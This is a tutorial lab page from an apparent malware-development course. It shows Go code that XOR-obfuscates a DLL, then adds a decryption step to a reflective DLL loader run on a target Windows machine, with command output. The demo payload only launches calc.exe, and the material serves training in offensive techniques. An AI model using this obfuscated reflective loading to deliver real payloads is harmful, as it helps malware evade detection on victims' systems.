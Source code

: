 ```yaml
---
showTableOfContents: true
title: "Obfuscated Loading (Lab 6.2)"
type: "page"
---
```

## Goal
Let's now integrate the simple XOR obfuscation logic into our reflective loader. We'll create a tool to obfuscate our DLL and then modify our reflective loader to handle this obfuscated payload.

We'll thus modify both our DLL (from Lab 1.1) and final Reflective Loader (from Lab 5.2).

## Part 1 - Creating our Obfuscator
### Code
- Create a new file called something like `obfuscator.go` in the same directory as `calc_dll.dll`
- Again, feel free to modify this key, but don't get too hung-up on it - we'll completely move ahead from using a static key in our next module.


    ```Go
    package main
    
    import (
    	"fmt"
    	"log"
    	"os"
    )
    
    // --- Include the xorEncryptDecrypt function from Lab 6.1 ---
    // xorEncryptDecrypt performs XOR operation between data and key.
    // The key is repeated cyclically if it's shorter than the data.
    func xorEncryptDecrypt(data []byte, key []byte) []byte {
    	if len(data) == 0 { return []byte{} }
    	if len(key) == 0 {
    		log.Println("[!] Warning: XOR key is empty. Returning original data.")
    		result := make([]byte, len(data)); copy(result, data); return result
    	}
    	result := make([]byte, len(data)); keyLen := len(key)
    	for i := 0; i < len(data); i++ {
    		result[i] = data[i] ^ key[i%keyLen]
    	}
    	return result
    }
    
    
    func main() {
    	fmt.Println("[+] DLL Obfuscator Tool")
    
    	// --- Configuration ---
    	inputDllPath := "calc_dll.dll"      // Original DLL
    	outputFilePath := "calc_dll.xor"    // Obfuscated output file
    	// IMPORTANT: Use the same key in the loader!
    	xorKey := []byte{0x55, 0xAA, 0x55, 0xAA, 0x11, 0x22, 0x33, 0x44} // Example 8-byte key
    
    	fmt.Printf("[+] Input DLL: %s\n", inputDllPath)
    	fmt.Printf("[+] Output File: %s\n", outputFilePath)
    	fmt.Printf("[+] XOR Key (Hex): %X\n", xorKey)
    
    	// --- Read Input DLL ---
    	fmt.Printf("[+] Reading input DLL...\n")
    	plaintextBytes, err := os.ReadFile(inputDllPath)
    	if err != nil {
    		log.Fatalf("[-] Failed to read input file '%s': %v\n", inputDllPath, err)
    	}
    	fmt.Printf("[+] Read %d bytes from input DLL.\n", len(plaintextBytes))
    
    	// --- Obfuscate ---
    	fmt.Println("[+] Obfuscating DLL bytes using XOR...")
    	obfuscatedBytes := xorEncryptDecrypt(plaintextBytes, xorKey)
    	fmt.Println("[+] Obfuscation complete.")
    
    	// --- Write Output File ---
    	fmt.Printf("[+] Writing %d obfuscated bytes to '%s'...\n", len(obfuscatedBytes), outputFilePath)
    	err = os.WriteFile(outputFilePath, obfuscatedBytes, 0644) // Standard file permissions
    	if err != nil {
    		log.Fatalf("[-] Failed to write output file '%s': %v\n", outputFilePath, err)
    	}
    	fmt.Println("[+] Output file written successfully.")
    	fmt.Println("[+] Obfuscator finished.")
    }
    
    ```



### Instructions
- Go ahead and run obfuscator.go in the same directory as calc_dll.dll

```
go run ./obfuscator.go
```


### Results

```
❯ go run ./obfuscator.go
[+] DLL Obfuscator Tool
[+] Input DLL: calc_dll.dll
[+] Output File: calc_dll.xor
[+] XOR Key (Hex): 55AA55AA11223344
[+] Reading input DLL...
[+] Read 111493 bytes from input DLL.
[+] Obfuscating DLL bytes using XOR...
[+] Obfuscation complete.
[+] Writing 111493 obfuscated bytes to 'calc_dll.xor'...
[+] Output file written successfully.
[+] Obfuscator finished.

```


### Discussion
Our output indicates our operations was a success, and indeed we can confirm we now have calc_dll.xor in the same directory. Let's  see if we can still get our reflective loader to launch `calc.exe` after we furnish it with the ability to decrypt.



## Part 2 - Reflective Loader Modification
### Code
- Open your reflective loader Go file from Lab 5.2
- Copy the **exact same** `xorEncryptDecrypt` function from Lab 6.1 (or the obfuscator tool) into this loader file.

- We'll now make a few modifications inside of our main() function
- First add the exact same key right at the top. If the keys differ this won't work.
```go
xorKey := []byte{0x55, 0xAA, 0x55, 0xAA, 0x11, 0x22, 0x33, 0x44} 
fmt.Printf("[+] Using XOR Key (Hex): %X\n", xorKey)
```

- Also if you wanted to change your usage instructions (see below), you can of course do so.
- This won't affect the application, but it is obvs important that you now point to the .xor file NOT the .dll file
```go
log.Fatalf("[-] Usage: %s <path_to_dll>\n", os.Args[0])
```


- We've added the function to decrypt our payload, but now of course we have to actually use it.
- See the comment below indicating where we want to place this step, it has to happen immediately _after_ reading the file content into `dllBytes`.

```go
	dllBytes, err := os.ReadFile(dllPath)
	if err != nil {
		log.Fatalf("[-] Failed to read file '%s': %v\n", dllPath, err)
	}
	
	// ADD DECRYPTION STEP HERE
	
	reader := bytes.NewReader(dllBytes)
```


- So add this code there
```go
    // --- *** ADD DECRYPTION STEP HERE *** ---
    fmt.Println("[+] Decrypting file content using XOR key...")
    dllBytes = xorEncryptDecrypt(dllBytes, xorKey) // Decrypt into dllBytes
    fmt.Printf("[+] Decryption complete. Resulting size: %d bytes.\n", len(dllBytes))
    // --- *** END DECRYPTION STEP *** ---
```

- You can see we are updating the value of the variable `dllBytes` with its result after being decrypted.


Since I've essentially explained each change here, I'm not going to include a "Code Breakdown" section.


## Instructions

- Compile the new application.

```shell
GOOS=windows GOARCH=amd64 go build  
```

- Then copy it over to target system and invoke from command-line, providing as argument now the `.xor` we'd like to decrypt + run,

```bash
".\reflect_xor.exe .\calc_dll.xor"  
```



## Results

```
PS C:\Users\vuilhond\Desktop> .\reflect_XOR.exe .\calc_dll.xor
[+] Starting Manual DLL Mapper (with IAT Resolution)...
[+] Using XOR Key (Hex): 55AA55AA11223344
[+] Reading file: .\calc_dll.xor
[+] Decrypting file content using XOR key...
[+] Decryption complete. Resulting size: 111493 bytes.

// REST OF RESULTS SAME AS BEFORE
```


## Discussion

We can see we were able to decrypt our payload, and `calc.exe` should once again pop up.

![calc.exe](../img/calc.png)

The fact that we could once again get `calc.exe` to launch confirms that our loader successfully read the obfuscated file, decrypted it using the correct key, and then reflectively loaded and executed the resulting DLL payload just as it did in Lab 5.2, but this time starting from an obfuscated file.

## Conclusion

This lab completes our integration of a  a simple obfuscation layer. In our next module we're going to layer in a number of methods to improve the security of our decryption layer - let's go!




---
[|TOC|]({{< ref "../moc.md" >}})
[|PREV|]({{< ref "xor_lab.md" >}})
[|NEXT|]({{< ref "../module07/rolling.md" >}})